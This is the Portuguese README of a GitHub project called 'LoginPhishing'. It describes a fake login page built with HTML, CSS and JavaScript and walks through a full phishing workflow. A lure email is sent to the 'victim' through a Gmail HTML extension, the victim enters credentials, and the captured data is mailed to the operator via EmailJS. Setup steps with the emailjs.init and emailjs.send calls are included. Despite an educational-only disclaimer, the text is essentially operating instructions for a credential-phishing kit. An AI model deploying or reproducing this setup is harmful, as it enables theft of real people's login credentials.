 # LoginPhishing

![Página]([https://imgur.com/ZDiX2gC])

Este projeto tem como objetivo demonstrar, de forma **educacional**, como uma página de phishing pode ser criada para fins de **conscientização sobre segurança da informação**. 

> ⚠️ **Atenção:** Este projeto é **exclusivamente para fins educacionais e acadêmicos**. Nunca deve ser usado para fins maliciosos, coleta real de dados, ou violação de privacidade. O uso indevido pode ser considerado crime e é passível de penalidades legais.

---

##  Objetivo

O projeto simula uma página de login com aparência legítima, capturando credenciais de forma didática utilizando **HTML**, **CSS**, **JavaScript** e a biblioteca **EmailJS** para envio dos dados preenchidos no formulário.

---

## 🛠 Tecnologias Utilizadas

- HTML5
- CSS3
- JavaScript (puro)
- [EmailJS](https://www.emailjs.com/) – envio de dados via e-mail

---
## Como Funciona

![Página]([https://i.imgur.com/seuarquivo.png](https://imgur.com/1rDGZQO))

É enviado para a vítima o email criado com a extensão HTML Editor for Gmail by cloudHQ

![Página]([https://imgur.com/ZHFzDOG))

A vitima preenche o formulário e confirma

---

![Página]([https://imgur.com/ZHFzDOG](https://imgur.com/jis3GgN))

E os dados preenchidos pela vítima será enviados para seu email

---

## Como Usar

1. Clone o repositório:
   git clone https://github.com/seu-usuario/nome-do-repositorio.git
   
2. Configure o serviço EmailJS:
   - Crie uma conta no EmailJS
   - Crie um service, template, e copie sua public key
   - Substitua no código:
       emailjs.init("Sua Public Key");
       emailjs.send("Seu Service ID", "Seu Template ID", templateParams)



